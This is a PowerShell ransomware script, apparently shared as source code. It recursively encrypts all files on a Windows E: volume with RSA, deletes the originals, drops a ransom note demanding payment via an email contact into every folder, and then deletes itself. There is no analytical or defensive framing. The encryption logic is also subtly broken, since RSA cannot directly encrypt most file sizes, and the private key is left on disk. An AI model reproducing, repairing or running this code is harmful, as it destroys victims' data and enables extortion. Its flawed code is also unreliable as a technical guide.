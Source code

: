 # Windows Volume E Ransomware (Realistic Edition)
# Encrypts all files on the E: volume using RSA-2048 for strong, irreversible encryption

param (
    [string]$Volume = "E:\"
)

# Generate RSA Key Pair if not exists
$PrivateKeyPath = "$env:TEMP\\private_key.pem"
$PublicKeyPath = "$env:TEMP\\public_key.pem"
if (!(Test-Path $PrivateKeyPath -PathType Leaf) -or !(Test-Path $PublicKeyPath -PathType Leaf)) {
    Write-Host "Generating RSA key pair..."
    $Key = [System.Security.Cryptography.RSACng]::new(2048)

    # Export Private Key to PEM
    $PrivateKey = $Key.ExportRSAPrivateKey()
    $PrivateKeyPem = "-----BEGIN PRIVATE KEY-----`n"
    $PrivateKeyPem += [Convert]::ToBase64String($PrivateKey) -replace ".{64}","$&`n"
    $PrivateKeyPem += "`n-----END PRIVATE KEY-----"
    [System.IO.File]::WriteAllText($PrivateKeyPath, $PrivateKeyPem)

    # Export Public Key to PEM
    $PublicKey = $Key.ExportRSAPublicKey()
    $PublicKeyPem = "-----BEGIN PUBLIC KEY-----`n"
    $PublicKeyPem += [Convert]::ToBase64String($PublicKey) -replace ".{64}","$&`n"
    $PublicKeyPem += "`n-----END PUBLIC KEY-----"
    [System.IO.File]::WriteAllText($PublicKeyPath, $PublicKeyPem)
    Write-Host "RSA key pair generated."
} else {
    Write-Host "RSA key pair already exists."
}

# Load Public Key for Encryption
$PublicKey = [System.Security.Cryptography.RSACng]::new()
$PublicKeyPem = Get-Content $PublicKeyPath -Raw
$PublicKeyPem = $PublicKeyPem -replace "-----BEGIN PUBLIC KEY-----`n", ""
$PublicKeyPem = $PublicKeyPem -replace "`n-----END PUBLIC KEY-----", ""
$PublicKeyBytes = [Convert]::FromBase64String($PublicKeyPem)
$PublicKey.ImportRSAPublicKey($PublicKeyBytes, [ref]0)

function Encrypt-File {
    param (
        [string]$FilePath
    )
    try {
        # Read file bytes
        $FileBytes = [System.IO.File]::ReadAllBytes($FilePath)

        # Encrypt data with RSA public key
        $EncryptedBytes = $PublicKey.Encrypt($FileBytes, $true)

        # Write encrypted file
        [System.IO.File]::WriteAllBytes($FilePath + ".enc", $EncryptedBytes)
        Remove-Item $FilePath -Force
        Write-Host "Encrypted: $FilePath"
    } catch {
        Write-Host "Failed to encrypt: $FilePath ($_)."
    }
}

# Encrypt All Files
Get-ChildItem -Path $Volume -Recurse -File | ForEach-Object {
    Encrypt-File $_.FullName
}

Write-Host "Volume E: Encryption Complete!"

# Drop Ransom Note
$RansomNote = @"
YOUR FILES HAVE BEEN ENCRYPTED!

To recover your files, you must pay the ransom.
Contact us at hacker@darkmail.com with your unique ID: $(New-Guid)
"@
Get-ChildItem -Path $Volume -Recurse -Directory | ForEach-Object {
    $NotePath = Join-Path $_.FullName "README.txt"
    Set-Content -Path $NotePath -Value $RansomNote
    Write-Host "Ransom note dropped in: $NotePath"
}

# Self-Destruct
Remove-Item $PSCommandPath -Force
Write-Host "Ransomware script has self-destructed."
